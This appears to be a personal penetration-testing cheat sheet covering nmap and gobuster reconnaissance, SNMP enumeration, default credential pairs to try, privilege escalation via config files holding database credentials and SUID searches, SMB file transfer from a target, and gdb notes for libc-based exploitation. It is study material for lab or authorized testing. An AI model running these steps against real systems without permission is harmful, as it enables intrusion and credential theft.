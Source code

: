 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Init contact
- nmap -sC -sV -oA \<name\> \<ip\>
- nmap -p- -sV \<ip\> > all-tcp
- nmap -sU \<ip\> > comm-udp
- nmap --script vuln \<ip\>

# http/https 80/443
- gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# snmp udp/161
- snmpwalk -c public -v1 <target>
- snmp-check -w -t 30 <target>

# priv esc
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => find / -perm -4000 2>/dev/null
- find all files in /home => find /home -type f

# manually test user pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# file 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) impacket-smbserver share \<shared path\>
  - (windows) net use z: \\\\<kali's ip\>\share
  - (windows) copy \<file\> z:

# gdb
- r < <(python exp.py)
  - (or 'set args' if take parameters)
- r < input.txt
- readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
- strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'
- p system => address of function system
- info functions => list all functions
- vmmap => find which part is executable.
